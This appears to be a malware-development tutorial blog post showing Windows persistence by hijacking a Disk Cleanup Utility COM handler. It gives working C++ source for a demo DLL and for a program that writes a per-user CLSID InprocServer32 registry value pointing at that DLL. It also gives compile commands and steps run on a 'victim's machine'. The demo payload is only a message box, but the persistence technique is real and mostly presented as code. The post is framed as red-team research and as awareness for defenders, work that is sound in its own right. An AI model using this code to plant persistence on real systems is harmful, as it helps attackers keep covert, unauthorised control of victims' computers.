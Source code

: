 \newpage
\subsection{85. malware development: persistence - part 19. Disk Cleanup Utility. Simple C++ example.}

﷽

![pers](./images/80/2022-11-18_07-59.png){width="80%"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via Disk Cleanup Utility.     

### disk cleanup

If you have ever had an issue with limited hard disk space, you are certainly familiar with the Disk Cleanup utility:    

![pers](./images/80/2022-11-18_08-06.png){width="80%"}    

Good news for red teamers, the *"Files to delete"* list displayed in the user interface is not random. Just run command:    

```powershell
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches" /s
```

![pers](./images/80/2022-11-18_04-42.png){width="80%"}    

![pers](./images/80/2022-11-18_04-44.png){width="80%"}    

As you can see, there are even default values ​​of registry keys here.    

Also, if we have `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches\default=<CLSID>`, we can find another registry key value: `HKCR\CLSID\<CLSID>\InProcServer32 = <DLLPATH>`:       

![pers](./images/80/2022-11-18_04-51.png){width="80%"}    

![pers](./images/80/2022-11-18_04-54.png){width="80%"}    

> For demo purposes, here I show the example of the registry from HKEY_CLASSES_ROOT because HKEY_CURRENT_USER is empty

This suggests, that we can use [COM DLL hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html) for persistence. Let's try.    

### practical example

First of all, as usually, create "evil" DLL (`hack.cpp`):      

```cpp
/*
hack.cpp
simple DLL
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD nReason, 
LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

As usually, for simplicity, it's just `meow-meow` messagbox.    

And then create persistence script (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via Disk Cleaner
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "Software\\Classes\\CLSID\\{8369AB20-56C9-11D0-94E8-00AA0059CE02}
  \\InprocServer32";

  // malicious DLL
  const char* dll = "Z:\\2022-11-16-malware-pers-19\\hack.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)sk, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, NULL, 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("cannot create subkey value :(\n");
    return -1;
  }
  return 0;
}
```

As CLSID I took `8369AB20-56C9-11D0-94E8-00AA0059CE02`. As you can see code is similar to [COM hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html) post. The difference is only in the values of the variables.   

### demo

Let's go to compile our evil DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.cpp
```

![pers](./images/80/2022-11-18_05-14.png){width="80%"}    

And persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/80/2022-11-18_05-17.png){width="80%"}    

Copy to victim's machine. In my case `Windows 10 x64`. Run:     

```powershell
reg query "HKCU\Software\Classes\CLSID\{8369AB20-56C9-11D0-94E8-00AA0059CE02}" /s
.\pers.exe
```

![pers](./images/80/2022-11-18_07-56.png){width="80%"}    

![pers](./images/80/2022-11-18_07-57.png){width="80%"}    

As you can see, everything is worked perfectly! =^..^=     

But for persistence. requires the user to run Disk Cleanup Utility. Here, I can use [one of the classic trick](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) for persistence. Adding Disk Cleanup to run during the start-up may not be the best idea, because it has a GUI. I tried using the command line arguments of this program:     

```powershell
cleanmgr.exe
cleanmgr.exe /cleanup
cleanmgr.exe /autoclean
cleanmgr.exe /setup
```

But failed :(. It worked correctly:       

![pers](./images/80/2022-11-18_08-45.png){width="80%"}    

I think I will return to this issue in one of the future posts.       

Also, according to microsoft documentation, we can add new entries to: `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches`      

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

[MSDN Registering Disk Cleanup Handler](https://learn.microsoft.com/en-us/windows/win32/lwef/disk-cleanup?redirectedfrom=MSDN#registration)        
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[Malware persistence: part 3](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html)       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-11-16-malware-pers-19)     
